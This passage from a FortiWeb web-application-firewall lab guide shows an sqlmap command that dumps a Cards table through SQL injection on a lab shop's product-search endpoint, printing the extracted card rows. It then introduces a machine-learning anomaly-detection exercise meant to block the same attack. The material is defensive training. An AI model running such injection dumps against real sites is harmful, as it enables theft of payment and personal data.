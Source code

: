     ```


5. Now that we know what tables are available, we can start extracting information. For our example here, the **Cards** table looks interesting. Let's see if we can pull something useful from there.

    ```
    sqlmap -u "http://FortiWeb Public IP:3000/rest/products/search?q=" --technique=B -T Cards --threads 10 --dump
    ```

    ```plaintext
    do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
    do you want to crack them via a dictionary-based attack? [Y/n/q] N
    Database: <current>
    Table: Cards
    [6 entries]
    +----+--------+-----+------------------+---------+----------+------------------+--------------------------------+--------------------------------+
    | id | UserId | 255 | cardNum          | expYear | expMonth | fullName         | createdAt                      | updatedAt                      |
    +----+--------+-----+------------------+---------+----------+------------------+--------------------------------+--------------------------------+
    | 1  | 4      | 255 | 4815205605542754 | 2092    | 12       | Bjoern Kimminich | 2022-03-28 17:02:26.911 +00:00 | 2022-03-28 17:02:26.911 +00:00 |
    | 2  | 17     | 255 | 1234567812345678 | 2099    | 12       | Tim Tester       | 2022-03-28 17:02:27.287 +00:00 | 2022-03-28 17:02:27.287 +00:00 |
    | 3  | 1      | 255 | 4716190207394368 | 2081    | 2        | Administrator    | 2022-03-28 17:02:27.308 +00:00 | 2022-03-28 17:02:27.308 +00:00 |
    | 4  | 1      | 255 | 4024007105648108 | 2086    | 4        | Administrator    | 2022-03-28 17:02:27.308 +00:00 | 2022-03-28 17:02:27.308 +00:00 |
    | 5  | 2      | 255 | 5107891722278705 | 2099    | 11       | Jim              | 2022-03-28 17:02:27.330 +00:00 | 2022-03-28 17:02:27.330 +00:00 |
    | 6  | 3      | 255 | 4716943969046208 | 2081    | 2        | Bender           | 2022-03-28 17:02:27.344 +00:00 | 2022-03-28 17:02:27.344 +00:00 |
    +----+--------+-----+------------------+---------+----------+------------------+--------------------------------+--------------------------------+
    ```

6. In the next Lab you will protect the application using ML



## Lab Extra 03 - ML Anomaly Detection

We will use the same SQL injection from the Burp Suite exercise in Lab Extra 02 above. As we will see, FortiWeb Machine Learning (ML) will successfully block this attack. Using ML, FortiWeb creates a statistical data model based on "normal" observed traffic. This occurs during an initial learning period. As discussed at the beginning of Class, any request that falls outside of this statistical distribution is considered an anomaly and will be passed to the second layer of ML, which is the FortiGuard powered Threat Engine. In a production environment, it is highly recommended to turn on **both** the **Signature** based Web Protection Profile and **ML**, as this gives the best opportunity to catch both known and unknown attacks.

1. Go to the below Github repo:
